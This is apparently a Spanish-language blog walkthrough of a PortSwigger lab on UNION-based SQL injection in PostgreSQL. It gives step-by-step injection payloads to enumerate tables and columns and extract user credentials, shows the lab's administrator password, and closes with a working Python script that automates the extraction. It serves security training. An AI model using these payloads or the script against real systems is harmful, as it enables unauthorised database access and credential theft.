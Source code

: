 ```yaml
---
title: "09 SQL injection attack, listing the database contents on non Oracle databases"
collection: publications
category: portswigger
permalink: /publications/09_SQL injection attack, listing the database contents on non Oracle databases
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION en una base de datos PostgreSQL que recupera los nombres de usuario y las contraseñas de todos los usuarios de la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection attack, listing the database contents on non Oracle databases'
---
```


![logo]({{site.url}}/images/SQLi/sqli-9/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-9/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, inicia sesión como usuario administrador.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-9/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
```

![Order by]({{site.url}}/images/SQLi/sqli-9/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL--
' UNION SELECT NULL, 'A'-- 
' UNION SELECT 'A', 'A'--
```

![String]({{site.url}}/images/SQLi/sqli-9/campo string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Es una BD Postgres SQL

![DB version]({{site.url}}/images/SQLi/sqli-9/version.png)

```javascript
' UNION SELECT version(), NULL --
```

![version]({{site.url}}/images/SQLi/sqli-9/Payload.png)

## Obtener el nombre de las tablas

Ya que conocemos el tipo de BD, debemos listar el nombre de las tablas.

```javascript
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='public'--
```

![Tablas]({{site.url}}/images/SQLi/sqli-9/tablas.png)

## Listamos las columnas

```javascript
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users_pzweot'--
```

```
username_jijzil
password_wjgcqi
```

![Columnas de la tabla]({{site.url}}/images/SQLi/sqli-9/columnas de la tabla.png)

## Listar username y password
Ya que conocemos las columnas de la tabla, debemos listarla. En esta ocación unimos en una sola columna

```javascript
' UNION SELECT NULL,username_jijzil || '*****' || password_wjgcqi FROM users_pzweot--
```

![Usuarios Passwords]({{site.url}}/images/SQLi/sqli-6/listado usuario y password.png)

## Procedemos a hacer el login

```
administrator
6rhx7r9m4iscbb2be39d
```

![login]({{site.url}}/images/SQLi/sqli-9/login.png)

## Solucionado

Solventado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-9/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3 
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def perform_request(url, sql_payload):
    path = '/filter?category=Accessories'
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    return r.text


def sqli_users_table(url):
    sql_payload = "' UNION SELECT table_name, NULL FROM information_schema.tables--"
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    users_table = soup.find(text=re.compile('.*users.*'))
    if users_table:
        return users_table
    else:
        return False

def sqli_users_columns(url, users_table):
    sql_payload = "' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = '%s'--" % users_table
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    username_column = soup.find(text=re.compile('.*username.*'))
    password_column = soup.find(text=re.compile('.*password.*'))
    return username_column, password_column

def sqli_administrator_cred(url, users_table, username_column, password_column):
    sql_payload = "' UNION select %s, %s from %s--" %(username_column, password_column, users_table)
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    admin_password = soup.body.find(text="administrator").parent.findNext('td').contents[0]
    return admin_password

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("Looking for a users table...")
    users_table = sqli_users_table(url)
    if users_table:
        print("Found the users table name: %s" % users_table)
        # step #5
        username_column, password_column = sqli_users_columns(url, users_table)
        if username_column and password_column:
            print("Found the username column name: %s" % username_column)
            print("Found the password column name: %s" % password_column)

            # step #6
            admin_password = sqli_administrator_cred(url, users_table, username_column, password_column)
            if admin_password:
                print("[+] The administrator password is: %s " % admin_password)
            else:
                print("[-] Did not find the administrator password.")
        else:
            print("Did not find the username and/or the password columns.")

    else:
        print("Did not find a users table.")
```